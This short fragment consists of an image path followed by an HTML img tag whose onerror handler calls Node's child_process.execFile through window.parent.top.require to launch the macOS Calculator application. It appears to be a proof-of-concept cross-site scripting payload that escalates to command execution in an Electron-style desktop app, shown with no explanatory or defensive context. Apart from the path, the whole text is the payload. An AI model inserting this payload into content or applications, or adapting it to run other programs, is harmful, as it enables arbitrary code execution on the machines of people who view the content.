 <img src=x onerror="javascript:
window.parent.top.require('child_process').execFile('/Applications/Calculator.app/Contents/MacOS/Calculator',function(error, stdout, stderr){if(error){console.log(error);} });">
